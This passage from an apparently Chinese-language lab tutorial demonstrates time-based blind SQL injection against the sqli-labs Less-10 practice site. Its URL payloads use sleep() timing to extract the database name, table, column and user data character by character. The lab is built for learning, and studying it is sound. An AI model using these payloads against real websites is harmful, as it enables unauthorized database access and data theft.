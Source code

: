 ![bool47](/images/sqlall/bool47.jpg)

#### 3.1.3.爆库

````bash
URL：115—>s
http://sqli-labs.me:8888/Less-10/?id=1" and if(ord(mid(database(),1,1))=115,sleep(5),1)--+
````

![bool48](/images/sqlall/bool48.jpg)

#### 3.1.5.爆表

````bash
URL：101—>e
http://sqli-labs.me:8888/Less-10/?id=1" and if(ord(mid((select table_name from information_schema.tables where
table_schema='security' limit 0,1),1,1))=101,sleep(5),1)--+
````

![bool50](/images/sqlall/bool50.jpg)

#### 3.1.6.爆字段

```bash
URL：105—>i
http://sqli-labs.me:8888/Less-10/?id=1" and if(ord(mid((select column_name from information_schema.columns where
table_name='users' limit 0,1),1,1))=105,sleep(5),1)--+
```

![bool51](/images/sqlall/bool51.jpg)

#### 3.1.7.爆数据

```bash
URl:68—>D
http://sqli-labs.me:8888/Less-10/?id=1" and if(ord(mid((select username from security.users limit
0,1),1,1))=68,sleep(5),1)--+
```

![bool52](/images/sqlall/bool52.jpg)

其他字段信息请自行搭建环境测试,
